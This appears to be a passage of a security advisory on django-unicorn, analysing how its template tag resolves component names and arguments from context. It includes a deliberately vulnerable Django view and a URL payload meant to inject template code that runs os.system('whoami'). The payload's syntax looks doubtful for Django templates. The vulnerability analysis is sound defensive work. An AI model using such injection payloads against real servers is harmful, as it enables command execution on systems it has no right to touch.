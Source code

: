 - Preconditions:
    - The attacker needs to be able to influence the component name or arguments used in the `{% unicorn %}` template tag. This could occur if the component name or arguments are dynamically generated based on user-controlled input.

- Source code analysis:
    - **`django_unicorn\templatetags\unicorn.py` - `UnicornNode.render` method:**
        ```python
        def render(self, context):
            # ...
            try:
                component_name = self.component_name.resolve(context) # [!] Component name is resolved using template context
            except AttributeError as e:
                raise ComponentNotValidError(f"Component template is not valid: {self.component_name}.") from e
            # ...
            resolved_args = []
            for value in self.args:
                resolved_arg = template.Variable(value).resolve(context) # [!] Arguments are resolved using template context
                resolved_args.append(resolved_arg)

            resolved_kwargs = self.kwargs.copy()
            for key, value in self.unparseable_kwargs.items():
                try:
                    resolved_value = template.Variable(value).resolve(context) # [!] Keyword arguments are resolved using template context
                    resolved_kwargs.update({key: resolved_value})
                except TypeError:
                    resolved_kwargs.update({key: value})
                except template.VariableDoesNotExist:
                    # ...
        ```
        - Component name, arguments, and keyword arguments are resolved using `template.Variable(value).resolve(context)`, which can lead to SSTI if user input is used without sanitization.

- Security test case:
    1. Create a Django template with dynamic component name from GET parameter.
        ```html
        {% load unicorn %}
        {% csrf_token %}
        {% unicorn component_name %}
        ```
    2. In Django view, pass `component_name` from GET parameter to template context.
        ```python
        from django.shortcuts import render

        def vulnerable_view(request):
            component_name = request.GET.get('component', 'hello-world')
            return render(request, 'vulnerable_template.html', {'component_name': component_name})
        ```
    3. Access vulnerable view with malicious component name: `/?component=injection_test'}}{%20import%20os%20%}{%20print(os.system('whoami'))%20%}{{'injection_test`.
    4. Observe if command `whoami` is executed on the server, confirming SSTI.
